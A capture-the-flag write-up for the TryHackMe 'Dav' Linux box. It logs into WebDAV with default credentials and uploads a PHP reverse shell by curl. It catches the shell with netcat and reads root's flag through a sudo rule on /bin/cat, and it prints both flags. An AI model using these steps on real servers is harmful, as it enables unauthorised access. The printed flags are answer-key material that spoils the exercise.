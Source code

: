 ```yaml
---
title: "THM - # Dav"
classes: wide
header:
  teaser: /assets/images/htb/htb.png
ribbon: blue
description: "Writeup for THM - # Dav"
categories:
  - THM
---
```


The given box ```Dav``` is a Linux machine 

- [TryHackMe- Dav](#tryhackme---Dav)
  - [Recon](#recon)
	  - [Nmap Scan](#nmap-scan)
 - [Enumeration](#enumeration)
	 - [Enumeration on port 80](#enumeration-on-port-80)

<center>
<img src = "https://github.com/enum-more/obsidian_vault/raw/main/thm/LINUX/bsidesgtdav/assets/images/dav.png" />
</center>


## Recon

### Nmap Scan

Found only one open port from the scan...

```shell
# Nmap 7.92 scan initiated Thu Jul 28 19:51:50 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -oN /root/enum-more/obsidian_vault/thm/results/10.10.214.146/scans/_quick_tcp_nmap.txt -oX /root/enum-more/obsidian_vault/thm/results/10.10.214.146/scans/xml/_quick_tcp_nmap.xml 10.10.214.146
adjust_timeouts2: packet supposedly had rtt of -356144 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -356144 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -355080 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -355080 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -96124 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -96124 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -98690 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -98690 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -201530 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -201530 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -201445 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -201445 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -201263 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -201263 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -204086 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -204086 microseconds.  Ignoring time.
Nmap scan report for 10.10.214.146
Host is up, received user-set (0.17s latency).
Scanned at 2022-07-28 19:51:51 IST for 19s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: Linux 3.10 - 3.13 (94%), Linux 5.4 (94%), Crestron XPanel control system (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Sony Android TV (Android 5.0) (90%), Android 5.0 - 6.0.1 (Linux 3.4) (90%), Android 5.1 (90%), Android 7.1.1 - 7.1.2 (90%), Linux 3.10 (90%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=7/28%OT=80%CT=1%CU=%PV=Y%DS=2%DC=T%G=N%TM=62E29B92%P=aarch64-unknown-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10A%TI=Z%TS=8)
SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)
OPS(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11NW7%O6=M505ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%TG=40%W=6903%O=M505NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 198.839 days (since Mon Jan 10 23:44:16 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 23/tcp)
HOP RTT       ADDRESS
1   156.00 ms 10.11.0.1
2   198.88 ms 10.10.214.146

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 28 19:52:10 2022 -- 1 IP address (1 host up) scanned in 19.73 seconds
```

## Enumeration

### Enumeration on port 80

Using ```feroxbuster``` tool got these findings

```shell
200      GET      375l      968w    11321c http://10.10.214.146/
401      GET       14l       54w      460c http://10.10.214.146/webdav
403      GET       11l       32w      301c http://10.10.214.146/server-status
```

Searched in the google for default credentials for webdav and got this and it worked!!!

http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html

<center>
<img src = "https://github.com/enum-more/obsidian_vault/raw/main/thm/LINUX/bsidesgtdav/assets/images/default_cred.png" />
</center>

## Post Exploitation

<center>
<img src = "https://github.com/enum-more/obsidian_vault/raw/main/thm/LINUX/bsidesgtdav/assets/images/webdav.png" />
</center>

Uploading a reverse shell to server to receive the shell back so, I have uploaded ```php-reverse-shell.php``` file to the server using ```curl``` command

```shell
root@rE3oN:~/enum-more/obsidian_vault/thm/LINUX/bsidesgtdav/results/10.10.214.146/loot# curl --user "wampp:xampp" http://10.10.214.146/webdav/ --upload-file ~/enum-more/obsidian_vault/thm/LINUX/bsidesgtdav/results/10.10.214.146/exploit/rev.php -v
*   Trying 10.10.214.146:80...
* Connected to 10.10.214.146 (10.10.214.146) port 80 (#0)
* Server auth using Basic with user 'wampp'
> PUT /webdav/rev.php HTTP/1.1
> Host: 10.10.214.146
> Authorization: Basic d2FtcHA6eGFtcHA=
> User-Agent: curl/7.83.1
> Accept: */*
> Content-Length: 5493
> Expect: 100-continue
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 Continue
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 201 Created
< Date: Thu, 28 Jul 2022 15:17:17 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Location: http://10.10.214.146/webdav/rev.php
< Content-Length: 268
< Content-Type: text/html; charset=ISO-8859-1
<
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/rev.php has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.214.146 Port 80</address>
</body></html>
* Connection #0 to host 10.10.214.146 left intact
```

<center>
<img src = "https://github.com/enum-more/obsidian_vault/raw/main/thm/LINUX/bsidesgtdav/assets/images/revshell.png" />
</center>

Got the connection back successfully!!!

```shell
root@rE3oN:~/enum-more/obsidian_vault/thm/LINUX/bsidesgtdav/results/10.10.214.146/loot# rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.11.77.75] from (UNKNOWN) [10.10.214.146] 50432
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 08:17:58 up 57 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
ls
ls
bin   etc         initrd.img.old  lost+found  opt   run   sys  var
boot  home        lib             media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64           mnt         root  srv   usr  vmlinuz.old
cd /home
cd /home
ls
ls
merlin  wampp
cd merlin
cd merlin
ls
ls
user.txt
cat user.txt
cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

## Privilege Escalation

Next step is privilege escalation, tried with ```sudo -l``` command and got the desired output where it seems to be vulnerable

```
sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
sudo /bin/cat /root/root.txt
sudo /bin/cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```

## Conclusion

```shell
user flag -> 449b40fe93f78a938523b7e4dcd66d2a
root flag -> 101101ddc16b0cdf65ba0b8a7af7afa5
```